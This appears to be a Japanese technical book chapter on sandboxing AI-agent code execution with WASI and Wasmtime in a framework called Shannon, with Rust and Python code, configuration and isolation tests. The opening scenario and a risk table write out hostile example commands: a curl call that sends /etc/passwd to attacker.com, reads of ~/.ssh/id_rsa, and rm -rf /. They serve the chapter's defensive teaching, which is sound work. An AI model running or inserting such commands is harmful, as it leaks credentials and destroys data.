


# 第 25 章：セキュア実行（WASI サンドボックス）

> **WASI があれば、ツール実行に本物のサンドボックス隔離を持たせられる。デフォルトで権限ゼロ、必要な能力だけを付与する。ただし、隔離だけでは万能じゃない。入力検証と出力監査を組み合わせて、初めて完全な防御線が完成するんだ。**

---

> **5 分で核心を掴む**
>
> 1. WASI の核心：ケイパビリティモデル。デフォルトで権限ゼロ、各能力を明示的に付与
> 2. Docker より 100 倍速い：マイクロ秒レベルの起動、フルコンテナ不要
> 3. 4 層の隔離：ファイルシステム（preopened dirs）、ネットワーク（デフォルト禁止）、CPU（Fuel 制限）、メモリ
> 4. 三重の防御線：入力検証 → サンドボックス実行 → 出力監査
> 5. 回避検知：システムコールパターンを監視、異常動作は即座に終了
>
> **10 分ルート**：25.1-25.3 → 25.5 → Shannon Lab

---

ユーザーがエージェント（Agent）に「このコードのパフォーマンスを分析して」と頼む。エージェントはコード実行ツールを呼び出すことにした。

コードの中に、こんな一行がある：`os.system('curl http://attacker.com/steal?data=' + open('/etc/passwd').read())`

これであなたのサーバーのパスワードは盗まれた。

筆者が初めてこの問題に遭遇したのは、ある「スマートコードアシスタント」プロジェクトだった。ユーザーが一見無害な Python コードを送ってきて、「このアルゴリズムの効率をテストしたい」と言ってきた。コードを実行した後、システムログに謎の外部リクエストが記録されていた。追跡してみると、そのコードに base64 エンコードされた悪意のある命令が隠されていたのだ。

**あれ以来、筆者はユーザーが送ってきたコードを一切信用しなくなった。**

でも問題がある。コード実行を完全に禁止すると、エージェントの能力が大幅に制限されてしまう。多くのタスクはコード実行が必要なんだ：データ分析、フォーマット変換、API 呼び出しの検証...

解決策は **サンドボックス** だ。隔離された環境でコードを実行させれば、たとえ悪意のあるコードがあっても、脱出できない。

---

## 25.1 なぜサンドボックスが必要なのか？

### ツール実行のセキュリティリスク

エージェントの核心能力はツール呼び出しだけど、ツール実行には巨大なセキュリティリスクが伴う：

| 攻撃タイプ | リスク | 例 |
|----------|------|------|
| ファイルシステム脱出 | 機密ファイルの読み取り | `/etc/passwd`, `~/.ssh/id_rsa` |
| ネットワーク外部接続 | データ漏洩 | `curl http://attacker.com` |
| リソース枯渇 | サービス拒否 | `while True: pass` |
| プロセス注入 | 権限昇格 | `os.system('sudo ...')` |
| コマンドインジェクション | 任意コマンド実行 | `import os; os.system('rm -rf /')` |

これらの攻撃に高度な技術は要らない。たった一行のコードで済んでしまう。

### 従来の隔離方式の問題点

| 方式 | 利点 | 問題 |
|------|------|------|
| Docker | 成熟していてエコシステムが充実 | 起動が遅い (100ms+)、リソースオーバーヘッドが大きい |
| VM | 最も完全な隔離 | さらに重いリソースオーバーヘッド、起動は秒単位 |
| プロセスサンドボックス | 軽量 | OS 依存、隔離が不完全 |
| chroot | シンプル | バイパス可能、ファイルシステムのみ隔離 |

もし君のエージェントが毎秒何十回もツール呼び出しするなら、Docker の 100ms の起動時間は許容できない遅延になる。

### WASI という解決策

WASI（WebAssembly System Interface）は軽量なサンドボックス方式だ。核心のアイデアは **ケイパビリティモデル** ——デフォルトで何の権限もなく、各能力を明示的に付与する必要がある。



> **時効性に関する注意** (2026-01): パフォーマンスデータは特定のテスト環境に基づいている。実際のパフォーマンスはハードウェア構成、WASM ランタイムのバージョン、ワークロードの特性に依存する。ターゲット環境で必ず実測検証してほしい。

WASI の核心的な優位性：

| 比較項目 | Docker | WASI |
|--------|--------|------|
| 起動時間 | 100ms+ | < 1ms |
| メモリオーバーヘッド | 50MB+ | < 10MB |
| 隔離方式 | 名前空間 | ケイパビリティモデル |
| クロスプラットフォーム | daemon が必要 | 純粋なライブラリ、依存なし |

---

## 25.2 WASI アーキテクチャ

Shannon では、WASI サンドボックスは Agent Core（Rust 層）で動作し、Python コードは gRPC リクエストで実行を要求する：



コアコンポーネント：

| ファイル | 言語 | 役割 |
|---------|------|------|
| `wasi_sandbox.rs` | Rust | WASI サンドボックスのコア実装 |
| `python_wasi_executor.py` | Python | Python ツールのラッパー |
| `python-3.11.4.wasm` | WASM | コンパイル済み Python インタープリタ |

---

## 25.3 WasiSandbox の実装

### 構造体定義

以下は Shannon の `rust/agent-core/src/wasi_sandbox.rs` のコア構造体だ：

```rust
#[derive(Clone)]
pub struct WasiSandbox {
    engine: Arc<Engine>,
    allowed_paths: Vec<PathBuf>,
    allow_env_access: bool,
    env_vars: HashMap<String, String>,
    memory_limit: usize,
    fuel_limit: u64,
    execution_timeout: Duration,
    table_elements_limit: usize,
    instances_limit: usize,
    tables_limit: usize,
    memories_limit: usize,
}
```

重要なリソース制限：

| フィールド | デフォルト値 | 説明 |
|-----------|-----------|------|
| `memory_limit` | 256MB | 最大メモリ使用量 |
| `fuel_limit` | 10^9 | CPU 命令クォータ |
| `execution_timeout` | 30s | 実行タイムアウト |
| `table_elements_limit` | 10000 | WASM テーブル要素上限 |
| `instances_limit` | 10 | インスタンス数上限 |

### 初期化設定

```rust
impl WasiSandbox {
    pub fn with_config(app_config: &Config) -> Result<Self> {
        let mut wasm_config = wasmtime::Config::new();

        // WASI に必要な機能
        wasm_config.wasm_reference_types(true);
        wasm_config.wasm_bulk_memory(true);
        wasm_config.consume_fuel(true);  // Fuel 計量を有効化

        // セキュリティ設定
        wasm_config.epoch_interruption(true);     // epoch 割り込みを有効化
        wasm_config.memory_guard_size(64 * 1024 * 1024); // 64MB guard page
        wasm_config.parallel_compilation(false);   // リソース使用を削減

        let engine = Arc::new(Engine::new(&wasm_config)?);

        Ok(Self {
            engine,
            allowed_paths: app_config.wasi.allowed_paths.iter()
                .map(PathBuf::from).collect(),
            allow_env_access: false,  // デフォルトで環境変数を禁止
            env_vars: HashMap::new(),
            memory_limit: app_config.wasi.memory_limit_bytes,
            fuel_limit: app_config.wasi.max_fuel,
            execution_timeout: app_config.wasi_timeout(),
            table_elements_limit: 10000,  // Python WASM は大きなテーブル制限が必要
            instances_limit: 10,
            tables_limit: 10,
            memories_limit: 4,
        })
    }
}
```

重要な設定ポイント：

1. **consume_fuel(true)**：命令計量を有効化、CPU 乱用を防止
2. **epoch_interruption(true)**：タイムアウト割り込みを有効化、コードの無限実行を防止
3. **memory_guard_size(64MB)**：メモリ境界超過時にページフォルトをトリガー、静かにオーバーフローしない

### 実行フロー

Shannon の WASM 実行フローは `wasi_sandbox.rs` の `execute_wasm_with_args` 関数を参照：

```rust
pub async fn execute_wasm_with_args(
    &self,
    wasm_bytes: &[u8],
    input: &str,
    argv: Option<Vec<String>>,
) -> Result<String> {
    info!("Executing WASM with WASI isolation (argv: {:?})", argv);
    let start = Instant::now();

    // 1. 権限を検証
    self.validate_permissions()
        .context("Permission validation failed")?;

    // 2. WASM モジュールのサイズとフォーマットを検証
    if wasm_bytes.len() > 50 * 1024 * 1024 {
        return Err(anyhow!("WASM module too large: {} bytes", wasm_bytes.len()));
    }

    if wasm_bytes.len() < 4 || &wasm_bytes[0..4] != b"\0asm" {
        return Err(anyhow!("Invalid WASM module format"));
    }

    // 3. メモリ宣言を事前検証
    {
        let tmp_module = Module::new(&self.engine, wasm_bytes)?;
        for export in tmp_module.exports() {
            if let ExternType::Memory(mem_ty) = export.ty() {
                if let Some(max_pages) = mem_ty.maximum() {
                    let max_bytes = (max_pages as usize) * (64 * 1024);
                    if max_bytes > self.memory_limit {
                        return Err(anyhow!(
                            "WASM module declares memory larger than allowed"));
                    }
                }
            }
        }
    }

    // 4. epoch ticker を起動（タイムアウト制御）
    let engine_weak = Arc::downgrade(&self.engine);
    let (stop_tx, mut stop_rx) = tokio::sync::oneshot::channel::<()>();
    let ticker_handle = tokio::spawn(async move {
        let mut interval = tokio::time::interval(Duration::from_millis(100));
        loop {
            tokio::select! {
                _ = interval.tick() => {
                    if let Some(engine) = engine_weak.upgrade() {
                        engine.increment_epoch();
                    } else {
                        break;
                    }
                }
                _ = &mut stop_rx => break,
            }
        }
    });

    // 5. ブロッキングスレッドで WASM を実行
    let result = tokio::task::spawn_blocking(move || {
        // ... 実行ロジック ...
    }).await?;

    // 6. epoch ticker を停止
    let _ = stop_tx.send(());
    let _ = ticker_handle.await;

    result
}
```

このフローの重要な設計：

1. **メモリ宣言の事前検証**：インスタンス化する前にメモリ要件をチェック、起動後に制限超過を発見するのを避ける
2. **epoch ticker**：バックグラウンドスレッドが定期的に epoch を増加、タイムアウト制御に使用
3. **spawn_blocking**：WASM 実行はブロッキングする可能性があるので、独立したスレッドに配置が必須

---

## 25.4 WASI ケイパビリティ制御

ここが WASI サンドボックスの核心——ケイパビリティモデルだ。

### ファイルシステム隔離

Shannon のファイルシステム隔離設計：

```rust
for allowed_path in &allowed_paths {
    // パスを正規化してシンボリックリンク脱出を防止
    let canonical_path = match allowed_path.canonicalize() {
        Ok(path) => path,
        Err(e) => {
            warn!("WASI: Failed to canonicalize path {:?}: {}", allowed_path, e);
            continue;
        }
    };

    // 正規化後も許可境界内にあることを検証
    if !canonical_path.starts_with(allowed_path)
        && !allowed_path.starts_with("/tmp") {
        warn!("WASI: Path {:?} resolves outside allowed directory", allowed_path);
        continue;
    }

    if canonical_path.exists() && canonical_path.is_dir() {
        wasi_builder.preopened_dir(
            canonical_path.clone(),
            canonical_path.to_string_lossy(),
            DirPerms::READ,   // 読み取り専用ディレクトリ
            FilePerms::READ,  // 読み取り専用ファイル
        )?;
    }
}
```

セキュリティ対策：

| 対策 | 防御する攻撃 |
|------|-----------|
| `canonicalize()` | シンボリックリンク脱出（/tmp/safe -> /etc） |
| 境界検証 | パストラバーサル（../../../etc/passwd） |
| `DirPerms::READ` | ディレクトリ書き込み（悪意あるファイル作成） |
| `FilePerms::READ` | ファイル変更（設定の改ざん） |

### ネットワーク隔離

WASI preview1 には **ネットワーク API がない**。すべての socket 操作は `ENOSYS`（Function not implemented）を返す。

```python
# このコードは WASI サンドボックス内で失敗する
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('google.com', 80))  # Error: [Errno 38] Function not implemented
```

これは WASI の最強のセキュリティ特性の一つだ：ネットワークを「制限」するのではなく、ネットワーク能力が「そもそも存在しない」。攻撃者は存在しない API をバイパスできない。

### 環境変数隔離

```rust
// デフォルト無効、ホスト環境を継承しない
if allow_env_access {
    for (key, value) in &env_vars {
        wasi_builder.env(key, value);
    }
}
// 注意: inherit_env() を呼ばない、ホスト環境変数を継承しない
```

環境変数にはよく機密情報が含まれている：API Key、データベースパスワード、AWS 認証情報。デフォルト無効が安全な選択だ。

### 標準入出力

```rust
// メモリパイプで隔離
let stdin_pipe = MemoryInputPipe::new(input.as_bytes().to_vec());
let stdout_pipe = MemoryOutputPipe::new(1024 * 1024); // 1MB buffer
let stderr_pipe = MemoryOutputPipe::new(1024 * 1024);

wasi_builder
    .stdin(stdin_pipe)
    .stdout(stdout_pipe)
    .stderr(stderr_pipe);
```

入力は stdin 経由で渡し、出力は stdout/stderr でキャプチャする。完全に隔離され、実際のターミナルには接続しない。

---

## 25.5 リソース制限

サンドボックスはアクセス権限の隔離だけじゃない。リソース乱用も防がないといけない。

### Fuel 制限（CPU クォータ）

```rust
store.set_fuel(fuel_limit)
    .context("Failed to set fuel limit")?;

// 各 WASM 命令は 1 fuel を消費
// デフォルト 10 億 fuel は約数秒の実行時間に相当
```

動作原理：

```
コード実行 → 各命令が Fuel を消費 → Fuel 枯渇 → Trap で終了
```

これは「プリペイド」モデルだ。コードに一定の「実行クォータ」を与え、使い切ったら停止。攻撃者は無限ループでシステムリソースを枯渇させることができない。

### メモリ制限

```rust
let store_limits = wasmtime::StoreLimitsBuilder::new()
    .memory_size(memory_limit)           // 256MB デフォルト
    .table_elements(table_elements_limit) // 10000 要素
    .instances(instances_limit)           // 10 インスタンス
    .memories(memories_limit)             // 4 memories
    .tables(tables_limit)                 // 10 テーブル
    .trap_on_grow_failure(false)          // 失敗を返す、trap しない
    .build();

let mut store = Store::new(&engine, HostCtx { wasi: wasi_ctx, limits: store_limits });
store.limiter(|host| &mut host.limits);
```

`trap_on_grow_failure(false)` の設計は興味深い：メモリ不足時に即座に trap せず、失敗を返す。これでコードがメモリ不足を処理する機会が生まれ、突然クラッシュしない。

### 実行タイムアウト

```rust
// epoch deadline を設定
let deadline_ticks = (execution_timeout.as_millis() / 100) as u64;
store.set_epoch_deadline(deadline_ticks);

// Epoch ticker は 100ms ごとに実行
tokio::spawn(async move {
    let mut interval = tokio::time::interval(Duration::from_millis(100));
    loop {
        tokio::select! {
            _ = interval.tick() => {
                if let Some(engine) = engine_weak.upgrade() {
                    engine.increment_epoch();  // 100ms ごとに epoch を増加
                }
            }
            _ = &mut stop_rx => break,
        }
    }
});
```

タイムアウト機構の動作方式：
- バックグラウンドスレッドが 100ms ごとに epoch を 1 増加
- WASM 実行時に現在の epoch が deadline を超えていないかチェック
- 30 秒タイムアウト = 300 epoch

なぜ単純に `time.sleep()` でタイムアウトを制御しないのか？WASM 実行はブロッキングなので、外部から中断できない。Epoch 機構は Wasmtime が提供する協調的な割り込み方式だ。

---

## 25.6 Python エグゼキュータ

Python はツールスクリプトで最も一般的な言語だ。Shannon は専用の Python WASM エグゼキュータを提供している：

```python
class PythonWasiExecutorTool(Tool):
    """Production Python executor using WASI sandbox."""

    _interpreter_cache: Optional[bytes] = None
    _sessions: Dict[str, ExecutionSession] = {}

    def __init__(self):
        self.interpreter_path = os.getenv(
            "PYTHON_WASI_WASM_PATH",
            "/opt/wasm-interpreters/python-3.11.4.wasm"
        )
        self.agent_core_addr = os.getenv("AGENT_CORE_ADDR", "agent-core:50051")

    def _get_metadata(self) -> ToolMetadata:
        return ToolMetadata(
            name="python_executor",
            version="2.0.0",
            description="Execute Python code in secure WASI sandbox",
            category="code",
            sandboxed=True,
            dangerous=False,  # WASI 隔離により安全
            timeout_seconds=30,
            memory_limit_mb=256,
        )
```

`dangerous=False` に注目——WASI サンドボックスの保護があるので、このツールは「安全」とマークされている。

### 実行実装

```python
async def _execute_impl(self, session_context: Optional[Dict] = None, **kwargs) -> ToolResult:
    code = kwargs.get("code", "")
    session_id = kwargs.get("session_id")
    timeout = min(kwargs.get("timeout_seconds", 30), 60)

    if not code:
        return ToolResult(success=False, error="No code provided")

    try:
        # gRPC リクエストを構築
        tool_params = {
            "tool": "code_executor",
            "wasm_path": self.interpreter_path,  # パスだけ渡す、20MB の内容は渡さない
            "stdin": code,  # Python コードを stdin として
            "argv": ["python", "-c", "import sys; exec(sys.stdin.read())"],
        }

        ctx = struct_pb2.Struct()
        ctx.update({"tool_parameters": tool_params})

        req = agent_pb2.ExecuteTaskRequest(
            query=f"Execute Python code (session: {session_id or 'none'})",
            context=ctx,
            available_tools=["code_executor"],
        )

        async with grpc.aio.insecure_channel(self.agent_core_addr) as channel:
            stub = agent_pb2_grpc.AgentServiceStub(channel)

            try:
                resp = await asyncio.wait_for(
                    stub.ExecuteTask(req), timeout=timeout
                )
            except asyncio.TimeoutError:
                return ToolResult(
                    success=False,
                    error=f"Execution timeout after {timeout} seconds",
                    metadata={"timeout": True},
                )

        # レスポンスを処理...

    except grpc.RpcError as e:
        return ToolResult(success=False, error=f"Communication error: {e.details()}")
```

重要な設計：`wasm_path` はパスだけを渡し、20MB の WASM コンテンツは渡さない。Agent Core がローカルファイルシステムからインタープリタをロードする責任を持つ。

### セッション永続化

```python
@dataclass
class ExecutionSession:
    session_id: str
    variables: Dict[str, Any] = field(default_factory=dict)
    imports: List[str] = field(default_factory=list)
    last_accessed: float = field(default_factory=time.time)
    execution_count: int = 0

async def _get_or_create_session(self, session_id: Optional[str]) -> Optional[ExecutionSession]:
    if not session_id:
        return None

    async with self._session_lock:
        # 期限切れセッションをクリーンアップ
        current_time = time.time()
        expired = [sid for sid, sess in self._sessions.items()
                   if current_time - sess.last_accessed > self._session_timeout]
        for sid in expired:
            del self._sessions[sid]

        # セッションを取得または作成
        if session_id not in self._sessions:
            if len(self._sessions) >= self._max_sessions:
                # LRU 方式で退去
                oldest = min(self._sessions.items(), key=lambda x: x[1].last_accessed)
                del self._sessions[oldest[0]]

            self._sessions[session_id] = ExecutionSession(session_id=session_id)

        session = self._sessions[session_id]
        session.last_accessed = current_time
        session.execution_count += 1

        return session
```

セッション機能で、ユーザーは複数回の実行間で状態を維持できる：変数の定義、モジュールのインポート、データの蓄積。

---

## 25.7 設定とデプロイ

### 設定

```yaml
# config/shannon.yaml
wasi:
  enabled: true
  memory_limit_bytes: 268435456  # 256MB
  max_fuel: 1000000000           # 10 億命令
  execution_timeout: "30s"
  allowed_paths:
    - "/tmp/wasi-sandbox"
    - "/opt/wasm-data"

python_executor:
  rate_limit: 10          # 1 分あたり最大 10 回
  session_timeout: 3600   # セッションは 1 時間で期限切れ
  max_sessions: 100       # 最大 100 セッション
```

### Docker 設定

```yaml
# docker-compose.yml
services:
  agent-core:
    image: shannon-agent-core:latest
    volumes:
      - ./wasm-interpreters:/opt/wasm-interpreters:ro
      - /tmp/wasi-sandbox:/tmp/wasi-sandbox
    environment:
      - WASI_MEMORY_LIMIT=268435456
      - WASI_MAX_FUEL=1000000000
      - WASI_TIMEOUT=30s
```

`:ro` に注目——WASM インタープリタディレクトリは読み取り専用でマウントされ、悪意あるコードによる変更を防いでいる。

### Python WASM の取得

```bash
# プリコンパイルされた Python WASM をダウンロード
curl -L https://github.com/nicholascok/wasification/releases/download/v0.2.1/python-3.11.4.wasm \
  -o /opt/wasm-interpreters/python-3.11.4.wasm

# 検証
file /opt/wasm-interpreters/python-3.11.4.wasm
# 出力: WebAssembly (wasm) binary module version 0x1
```

---

## 25.8 セキュリティテスト

デプロイ後は必ずサンドボックスの隔離効果をテストしよう。

### ファイルシステム脱出テスト

```python
code = """
import os
print(os.listdir('/etc'))  # 失敗するはず
"""

# 期待される出力
# Error: [Errno 2] No such file or directory: '/etc'
# /etc は preopened されていないから
```

### ネットワークアクセステスト

```python
code = """
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('google.com', 80))  # 失敗するはず
"""

# 期待される出力
# Error: [Errno 38] Function not implemented
# WASI はネットワーク操作をサポートしない
```

### リソース枯渇テスト

```python
code = """
while True:
    pass
"""

# 期待: 30 秒後にタイムアウトで終了
# 出力: Execution timeout after 30 seconds
```

### Fuel 枯渇テスト

```python
code = """
result = 0
for i in range(10**9):
    result += i
print(result)
"""

# 期待: Fuel 枯渇後に Trap
# 出力: wasm trap: all fuel consumed
```

### メモリ枯渇テスト

```python
code = """
data = []
while True:
    data.append('x' * 1024 * 1024)  # 毎回 1MB 割り当て
"""

# 期待: メモリ制限がトリガー
# 出力: wasm trap: cannot grow memory
```

---

## 25.9 よくあるハマりどころ

### ハマり 1：WASM モジュールが大きすぎる

```rust
// ダメ：20MB の Python.wasm を gRPC で送ろうとする
let wasm_bytes = std::fs::read("python.wasm")?;  // 20MB!
grpc_request.wasm_bytes = wasm_bytes;  // gRPC のデフォルトは 4MB 制限!

// 正解：ファイルパスを使う
tool_params["wasm_path"] = self.interpreter_path;  // パスだけ渡す
```

### ハマり 2：シンボリックリンクチェックを忘れる

```rust
// ダメ：ユーザー提供のパスを直接使う
wasi_builder.preopened_dir(user_path, ...);

// 正解：正規化して検証
let canonical = user_path.canonicalize()?;
if !canonical.starts_with(allowed_base) {
    return Err(anyhow!("Path escapes sandbox"));
}
wasi_builder.preopened_dir(canonical, ...);
```

このハマりどころは見つけにくい。攻撃者がシンボリックリンク `/tmp/safe -> /etc` を作成し、`/tmp/safe` へのアクセスを要求する。正規化チェックをしないと、`/etc` を公開してしまう。

### ハマり 3：非同期ランタイムをブロック

```rust
// ダメ：async 関数内で同期的に WASM を実行
async fn execute(&self, ...) {
    store.call_start(...);  // ブロッキング!
}

// 正解：spawn_blocking を使う
async fn execute(&self, ...) {
    let result = tokio::task::spawn_blocking(move || {
        store.call_start(...)
    }).await?;
}
```

WASM 実行は同期的で、数秒から数十秒かかる可能性がある。async コンテキストで直接実行すると、ランタイム全体がブロックされ、他のリクエストに影響する。

### ハマり 4：タイムアウトを処理しない

```rust
// ダメ：fuel に頼るが epoch を設定しない
store.set_fuel(1000000000);
// コードが I/O 待ちなら、fuel は消費されない!

// 正解：fuel と epoch を両方使う
store.set_fuel(fuel_limit);
store.set_epoch_deadline(deadline_ticks);
// epoch ticker を起動...
```

Fuel は CPU 計算のみ制限できる。コードが I/O 待ちをしているなら、Fuel は消費されない。Epoch タイムアウト機構も同時に使う必要がある。

### ハマり 5：Python WASM のテーブル制限が小さすぎる

```rust
// ダメ：デフォルトのテーブル制限を使う
table_elements_limit: 1000,

// 正解：Python WASM は大きなテーブル制限が必要
table_elements_limit: 10000,  // Python WASM は 5413+ 要素が必要
```

Python WASM インタープリタは起動時に大量の関数参照を作成するため、大きなテーブル制限が必要だ。デフォルト値では起動に失敗する可能性がある。

---

## 25.10 フレームワーク比較

異なるフレームワークはツール実行のセキュリティをどう扱っているか？

| フレームワーク | サンドボックス方式 | 起動時間 | ネットワーク隔離 | リソース制限 |
|--------------|------------------|---------|----------------|------------|
| **Shannon + WASI** | Wasmtime | < 1ms | 完全隔離 | Fuel + Epoch |
| **LangChain** | 組み込みなし | N/A | なし | なし |
| **E2B** | クラウド VM | 秒単位 | 設定可能 | クラウド側制限 |
| **Replit** | コンテナ | 100ms+ | ネットワークポリシー | cgroups |
| **Docker** | コンテナ | 100ms+ | ネットワーク名前空間 | cgroups |

WASI の優位性：
1. **軽量**：ミリ秒単位の起動、MB 単位のメモリ
2. **セキュリティモデル**：ケイパビリティモデル、デフォルトで権限なし
3. **組み込み可能**：純粋なライブラリ、外部サービス不要

劣位性：
1. **エコシステム**：すべての言語に成熟した WASM サポートがあるわけではない
2. **互換性**：一部のシステムコールは利用不可（ネットワークなど）
3. **デバッグ**：エラー時の情報が十分詳細でないことがある

---

## 振り返り

1. **ゼロトラスト**：デフォルトですべての能力を無効化、必要なものだけを明示的に付与
2. **読み取り専用マウント**：必要なディレクトリを読み取り専用でマウント、ファイル書き込みを防止
3. **シンボリックリンクチェック**：パスを正規化して脱出攻撃を防止
4. **二重制限**：Fuel（CPU）と Epoch（時間）を同時に使ってリソースを制御
5. **非同期隔離**：spawn_blocking を使って非同期ランタイムのブロックを回避

---

## Shannon Lab（10 分で始める）

このセクションでは、10 分で本章の概念を Shannon ソースコードに対応付けられるようにする。

### 必読（1 ファイル）

- `rust/agent-core/src/wasi_sandbox.rs`：`WasiSandbox` 構造体のリソース制限フィールド、`execute_wasm_with_args` 関数の 6 つの実行フェーズ、`preopened_dir` 呼び出しのファイルシステム隔離を見てほしい

### 選読（2 つ、興味に応じて選択）

- `python/llm-service/llm_service/tools/builtin/python_wasi_executor.py`：`_execute_impl` 関数を見て、Python コードがどのように gRPC 経由で Agent Core に送られて実行されるか理解する
- Wasmtime ドキュメント（https://docs.wasmtime.dev/）："fuel" と "epoch" で検索して、リソース制限の基礎原理を理解する

---

## 練習

### 練習 1：サンドボックステストケースの設計

WASI サンドボックス用のテストケースセットを作成し、以下をカバーする：
- ファイルシステム脱出（/etc/passwd の読み取りを試みる）
- ネットワークアクセス（外部への接続を試みる）
- リソース枯渇（無限ループ）
- メモリ乱用（大量のメモリ割り当て）

各テストケースに期待される出力を記述すること。

### 練習 2：ソースコード理解

Shannon の `rust/agent-core/src/wasi_sandbox.rs` を読む：
1. `canonicalize()` はどこで呼ばれているか？これを削除するとどんなセキュリティリスクがあるか？
2. なぜ `spawn_blocking` 内で WASM を実行する必要があるか？async 関数内で直接実行するとどうなるか？

### 練習 3（発展）：多言語サンドボックスの設計

シナリオ：Python に加えて、JavaScript と Ruby のサンドボックス実行もサポートしたい。汎用的なサンドボックス実行フレームワークを設計する：
- 共通インターフェースを抽象化
- 異なるインタープリタの初期化の違いを処理
- 複数の WASM インタープリタのメモリオーバーヘッドをどう管理するか検討

---

## さらなる学習

- **WASI 標準**：https://wasi.dev/ - WASI の設計理念とケイパビリティモデルを理解
- **Wasmtime ドキュメント**：https://docs.wasmtime.dev/ - Rust 実装の高性能 WASM ランタイム
- **CPython WASM**：https://github.com/nicholascok/wasification - プリコンパイルされた Python WASM インタープリタ

---

## 次章予告

WASI サンドボックスは「コード実行のセキュリティ」の問題を解決した。でも、もっと大きな問題がある：**マルチテナント隔離** だ。

君のエージェントシステムが複数の企業顧客にサービスを提供するとき：
- 顧客 A のデータを顧客 B が見てはいけない
- 顧客 A のクエリが顧客 B の Token 予算を使ってはいけない
- 顧客 A のベクトルストアを顧客 B が検索できてはいけない

これには認証層からデータベース層までの **エンドツーエンド隔離** が必要だ。

次章では **マルチテナント設計** について話そう——完全なテナント隔離を実現し、企業顧客のデータセキュリティを確保する方法だ。

続きを見ていこう...
